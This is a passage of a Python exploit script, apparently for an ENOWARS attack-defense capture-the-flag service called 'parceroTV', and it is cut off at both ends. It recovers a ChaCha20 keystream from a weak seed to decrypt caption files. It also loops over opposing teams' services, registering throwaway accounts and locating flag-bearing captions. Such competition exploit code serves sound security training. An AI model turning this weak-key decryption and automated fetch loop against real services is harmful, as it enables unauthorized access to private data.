 ```python
        ms = 1
    seed = ms.to_bytes(8, "little") + b"\x00" * 24

    key = seed
    nonce = b"\x00" * 16
    cipher = Cipher(algorithms.ChaCha20(key, nonce), mode=None, backend=default_backend()).encryptor()

    keystream = cipher.update(b"\x00" * len(cipher_bytes) * 8)

    plain_bytes = bytearray()
    for i, cb in enumerate(cipher_bytes):
        kb = keystream[i * 8]
        plain_bytes.append(cb ^ kb)
    
    return plain_bytes.decode("utf-8", errors="ignore")


session = requests.Session()
session.headers.update({'User-Agent': 'python-httpx/0.23.3', 'Accept-Encoding': 'gzip, deflate', 'Accept': '*/*', 'Connection': 'keep-alive'})

def extract_vtt_text(vtt_content: bytes) -> List[bytes]:
    lines = vtt_content.splitlines()
    text_lines = []
    for line in lines:
        if re.match(br'^\d+$', line):
            continue
        if re.match(br'^\d{2}:\d{2}:\d{2}\.\d{3} --> \d{2}:\d{2}:\d{2}\.\d{3}$', line):
            continue
        if line.strip() == b"":
            continue
        if line.startswith(b'WEBVTT'):
            continue
        text_lines.append(line.strip())
    
    # Unisce tutte le linee di testo e poi le suddivide in parole
    full_text = b' '.join(text_lines)
    return full_text.split()

assert len(sys.argv) == 2
TEAM_IP = sys.argv[1]
service_name = 'parceroTV'

attacksjson = requests.get(f'https://9.enowars.com/scoreboard/attack.json').json()['services'][service_name][TEAM_IP]
URL = f'http://{TEAM_IP}:7777'

for rnd in attacksjson.items():
    vtt_file = rnd[1]['1'][0]
    username, password = ''.join(random.choices(alph, k=12)), ''.join(random.choices(alph, k=12))

    session.get(URL)
    session.post(URL + '/newuser', data={'username': username, 'password': password})
    session.post(URL + '/checkcredentials', data={'username': username, 'password': password})

    r = session.get(URL + '/get_shorts').json()
    c = None
    for i in r:
        if i['name'] == vtt_file:
            c = i['caption_path']
            break
    
```
